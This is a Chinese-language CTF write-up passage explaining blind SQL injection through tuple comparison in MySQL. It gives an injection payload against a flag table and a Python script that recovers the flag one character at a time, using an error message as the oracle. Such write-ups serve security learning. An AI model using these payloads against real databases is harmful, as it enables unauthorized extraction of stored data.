 这里前面`select`的结果,也就是`(1,1)`会和后面的结果去按位比较(`ASCII码`)

如果前后列数不一致,则会报错. 如果列数一致,再判断整个不等式的真假.  

比较的时候进行按位比较, 假设`select * from f1ag_1s_h3r3_hhhhh`的结果中,第二列的数据为:`flag{aaaaa}`

这里传入

```
id=1^((select 1,"abcd")>(select * from f1ag_1s_h3r3_hhhhh))
```

这里将比较"a"和`select * from f1ag_1s_h3r3_hhhhh`的结果中第一位的`ascii`码大小

如果首位比较的结果相等,再接着去比较第二位"b"和后面结果的第二个字符

根据这种性质,就可以使用代码来注入了:

```python
def get_data():
    flag = ""
    for i in range(1,100):
        for c in range(32,127): # 测试的ascii码范围
            data = {
                'id': "1^((select 1,'{}')>(select * from f1ag_1s_h3r3_hhhhh))#".format(flag+chr(c))
            }
            print(data['id'])
            res = session.post(base_url, data=data).text
            # print(res)
            if "Error Occured When Fetch Result." in res:
                flag = flag + chr(c-1)
                print(flag)
                break
 #输出:FLAG{0F444C84-7580-4A33-B2E8-19FCE4439E7D} 
```

注意这里如果返回了`Error Occured When Fetch Result`,说明当前比较的字母已经大于flag中对应位置的字母了

那么它前一个字母是和flag中对应位置相等的,所以12行是`flag = flag + chr(c-1)`

另外, 上面输出的全都是大写字母的原因是:  `mysql`中比较是不区分大小写的,所以尽管`N`的 ascii码小于`a`,但是在上面判定时还是会判断为`N`>`a`  但这不影响我们的结果,只要把上面的flag转为小写就可以了.

```python
flag = "FLAG{0F444C84-7580-4A33-B2E8-19FCE4439E7D}"
print(flag.lower())
```


















